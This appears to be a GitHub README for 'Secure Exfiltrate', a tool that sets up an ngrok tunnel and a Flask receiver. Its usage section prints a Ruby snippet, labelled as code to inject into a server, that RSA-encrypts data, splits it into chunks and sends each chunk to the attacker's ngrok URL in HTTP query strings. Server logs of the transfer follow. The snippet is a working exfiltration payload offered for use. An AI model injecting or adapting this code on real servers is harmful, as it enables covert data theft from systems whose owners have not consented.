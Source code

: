 # Secure Exfiltrate

This project sets up a secure channel that can receive messages from an embedded server. It demonstrates the exfiltration of information by injecting remote code onto a server. However, as a security professional, it ensures that the extracted information is not compromised.

## Prerequisites

Before running this project, make sure you have the following dependencies installed:

- Node.js
- npm
- ngrok (with an account and agent authtoken configured)
- Python 3

## Installation

1. Install the `concurrently` package globally by running the following command:

   ```bash
   npm install -g concurrently
   ```

2. Clone this repository:

   ```bash
   git clone https://github.com/your-username/secure-exfiltrate.git
   ```

3. Navigate to the project directory:

   ```bash
   cd secure_exfiltrate
   ```

## Usage

To start the main service and set up the ngrok tunnel, run the following command:

```bash
make start
```

Example Runtime output (NOTE: the key is randomly generated each time):

```bash
Starting services with concurrently...
Ngrok URL: https://f8d5-98-225-53-234.ngrok-free.app
Ruby Code to inject, for safe transmission:
=================================

require 'openssl'
require 'base64'
require 'net/http'
require 'uri'

payload = "hello world " * 1000
public_key = OpenSSL::PKey::RSA.new("-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvXmwmaNq0EmOUOYh4tOh\nd4VYOdr3CmCRcS3FVyjt473v+KFqQElB3domKHRQt4yAaAly4Yi9m6DbMOTzOL5E\ni8lkY4Y9Lw0n7VFLiqVGQQOObAcdyEQ7G5kCZ6xAk7xoF25kXfSkAPpaejvGZKeR\niX0PVLygfrUT/p9grc3nTJGk1COH7dHX7HTW8eO8XZDsiRFqLy2K6LVw4ZTkfjMT\n24imFKPuXKT0twmrEpxdKmLv2pCH82VHuu+QWRhxD9E46heAvYvaz0SXt1zNK7wc\nz47A/Pzw+MJcc9jjDkYaCqv2gr1K0ZCANL/2j49a1aoXicn1HGdqrTzSBjhsSWiB\nKwIDAQAB\n-----END PUBLIC KEY-----\n")
chunks = payload.scan(/.{1,#{public_key.n.num_bytes - 42}}/)
midx = (0...10).map { ('a'..'z').to_a[rand(26)] }.join
chunks.each_with_index { |chunk, index| encrypted_chunk = public_key.public_encrypt(chunk); encrypted_base64_chunk = Base64.strict_encode64(encrypted_chunk).strip; encoded_chunk = URI.encode_www_form_component(encrypted_base64_chunk); uri = URI.parse("https://f8d5-98-225-53-234.ngrok-free.app/"); uri.query = "n=" + encoded_chunk + "&m=" + midx + "&x=" + index.to_s + "&z=" + chunks.length.to_s; response = Net::HTTP.get_response(uri); puts "==> " + response.code + ": [" + response.body + "]" }

=================================

 * Serving Flask app 'server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
 ==> Decrypted data for message: #jfltbicvcc part 1 (1/2) -> 214 bytes
127.0.0.1 - - [22/Nov/2023 09:43:08] "GET /?n=WPc2Q/46DDoVPX8K5jMEWfDYB4cPdrp/eNMukimma3qh/3uutOsyOJh7CP9H425FKCgsn95%2B1kJHQYW0Zt%2BwoT87hiKxcyS3NTPu6jazF6H9NewDxIumgKKHuS86JjUfEoTZ9EheS3tLu5IVhhEvEDNnzDrttXfuWDCLUTb%2B4UD2smMdo56KAvghKDwXddh776p%2B9cKQqYkTglq/wbpHPhD3JYofjZA4tVgDdTdrDhPnacrj7A%2B37kPdRon51cG6oWzakd8YhxPzRisUHAG2j2pjLl1bBaHIRs1wKeEzbvk8/JhkZCfApPbPu9qug7KYIHjPrjGx62XwTY2kRWSZQw%3D%3D&m=jfltbicvcc&x=0&z=2 HTTP/1.1" 200 -
 ==> Decrypted data for message: #jfltbicvcc part 2 (2/2) -> 146 bytes
Complete message for message ID jfltbicvcc:
=================================
hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world 
=================================

127.0.0.1 - - [22/Nov/2023 09:43:08] "GET /?n=oP/Ia/A9dJUtg13w/B9iur4Rll7XLVldqrXOchry1Nm56AIguLrB6TrrF%2Bhc0Ok9IXxUrcf0lViHQ1FNqMrxVSf1jhtDEayTlITRgRrY2klPo17%2ByK1FJvToBSIfFkk2ruiCy40lMRycLB1s3BF3%2BIFQx9ivOcu5PopHYpa/JFcXjjZfeFsbRChFPjchgzGWdYoK1huLsPwur5KlYLAolCfU8dRNwuDf5MwjnGbi1U2J1bWTo/GGGtjYVGHMOvX3IvdVnh57AVT%2BgfR75LEP8fTK%2BSfOtzWYNSgCJa2DFMvgLUHd6NgQndRfOtokuW/f5RpEs%2BaKaSOE9puLJiJ/dQ%3D%3D&m=jfltbicvcc&x=1&z=2 HTTP/1.1" 200 -
```
